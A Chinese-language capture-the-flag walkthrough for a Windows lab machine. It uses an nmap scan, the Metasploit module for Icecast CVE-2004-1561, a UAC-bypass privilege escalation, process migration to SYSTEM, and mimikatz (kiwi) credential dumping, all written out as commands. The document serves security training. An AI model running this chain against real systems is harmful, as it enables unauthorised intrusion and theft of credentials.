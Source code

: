 # Ice

部署并入侵Windows机器，利用安全性非常低的媒体服务器。

---

循例 nmap扫

    nmap -sS 10.10.163.66 -Pn -p- -T5

.

    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    5357/tcp  open  wsdapi
    8000/tcp  open  http-alt
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49158/tcp open  unknown
    49159/tcp open  unknown
    49160/tcp open  unknown

想要回答题目的问题只需加 -sV -sC即可

寻找icecast相关cve:

    CVE-2004-1561

开启metasploit

    search CVE-2004-1561
    use 0

设置相关参数并运行

### 权限提升

在meterpreter下运行post模块的内核漏洞扫描：

    run post/multi/recon/local_exploit_suggester

metasploit返回了几个存在的漏洞，我们寻找能够帮助我们提权的：

    exploit/windows/local/bypassuac_eventvwr

background后台运行

    use exploit/windows/local/bypassuac_eventvwr
    show options
    sessions -l
    set session 2
    set lhost ...
    set lport ...
    exploit

在meterpreter下运行：getprivs

我们可以看到拥有许多特权

### 凭据收集

转储到打印机进程：

    migrate -N spoolsv.exe

此时我们将获得system权限

加载kiwi模块（mimikatz合并到了此模块中）

    load kiwi
    help
    creds_all

即可获得所有凭据

题目的问题可以自行查阅meterpreter shell的help
